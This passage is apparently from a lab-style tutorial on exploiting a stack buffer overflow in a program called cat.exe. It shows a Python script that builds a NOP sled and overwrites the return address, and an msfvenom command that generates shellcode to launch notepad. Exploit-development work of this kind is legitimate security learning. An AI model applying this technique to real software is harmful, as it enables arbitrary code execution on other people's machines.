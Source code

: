 ### .. Conclusion

 * It's possible to write an address to the stack which is executed.
 * It's possible to write code to the stack which is executed.

> This leaves us with 1028 bytes for a payload to weaponize this exploit.
  See `fuzz5.py` which will use a payload.

### .. Code for `fuzz4.py`

```python

from struct import pack

# start address of our shellcode
address = 0x19FA54
# offset for the address
offset = 1028

with open('pattern.dat', 'w') as f:
	# Nop sled
	f.write("\x90" * (offset - 1)) 
	# Breakpoint
	f.write("\xCC")
	# Address
	f.write(pack('i', address))

```

---

## `fuzz5.py`

 * Load shellcode from a file and generate an exploit.
 * Because the stack might change in later versions,
   a nop sled will be prepended and the address will point to the middle nop.
 * The payload must be in hex format. (use payload_run_notepad.msfv for a payload)

### .. Test 1

 * Generate payload, save to payload.dat
```
root@kali:~# msfvenom --payload windows/exec --platform windows --arch x86 -b '\x00' -f hex CMD=\\windows\\notepad.exe 2>/dev/null
ddc6d97424f4bebb27ecb25d29c9b13431751883edfc0375afc5194e278be ...... ecfbab8afa5bc6fcfefe1f8467e7e69ee0d221b7f86bf931e026e3699af6e
```

 * Test
```
> fuzz5.py payload_run_notepad.msfv
> ImmunityDebugger.exe cat.exe exploit.dat
```

